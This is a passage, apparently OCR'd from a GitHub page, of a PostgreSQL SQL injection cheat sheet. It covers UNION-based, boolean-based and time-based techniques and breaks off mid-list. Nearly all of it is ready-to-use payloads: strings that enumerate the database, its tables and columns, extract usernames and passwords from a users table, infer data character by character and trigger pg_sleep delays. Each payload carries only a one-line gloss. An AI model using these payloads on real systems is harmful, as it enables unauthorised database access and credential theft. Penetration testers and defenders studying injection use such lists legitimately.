     ```c
    ' UNION SELECT NULL, current_database() -- -
    ```
*   **Table Name Enumeration:** Lists the names of all tables in the `public` schema.

    ```c
    ' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema='public' LIMIT 1 OFFSET 0 -- -
    ```
*   **Column Name Enumeration:** Retrieves the column names from a specified table.

    ```c
    ' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 0 -- -
    ```
*   **User Data Extraction:** Extracts usernames and passwords from the `users` table.

    ```c
    ' UNION SELECT NULL, username, password FROM users -- -
    ```

**Boolean-Based SQLi**

*   **Checking PostgreSQL Version:** Evaluates to true if the PostgreSQL version starts with '9'.

    ```c
    ' AND SUBSTRING(version(), 1, 1) = '9' -- -
    ```
*   **Determining the Number of Tables:** Evaluates to true if there are more than 10 tables in the `public` schema.

    ```c
    ' AND (SELECT COUNT(*) FROM pg_tables WHERE schemaname = 'public') > 10 -- -
    ```
*   **Checking Existence of a Column:** Evaluates to true if the `password` column exists in the `users` table.

    ```c
    ' AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_name='users' AND column_name='password') > 0 -- -
    ```
*   **Extracting Data from a Column:** Evaluates to true if the first character of the first username in the `users` table is 'a'.

    ```c
    ' AND (SELECT SUBSTRING(username, 1, 1) FROM users LIMIT 1) = 'a' -- -
    ```

**Time-Based SQLi**

*   **Basic Time Delay Test:** Causes the PostgreSQL database to sleep for 5 seconds. If the response is delayed, the injection point is likely vulnerable.

    ```c
    ' OR pg_sleep(5) -- -
    ```
*   **Conditional Time Delay:** Causes a 5-second delay if the condition `1=1` is true.
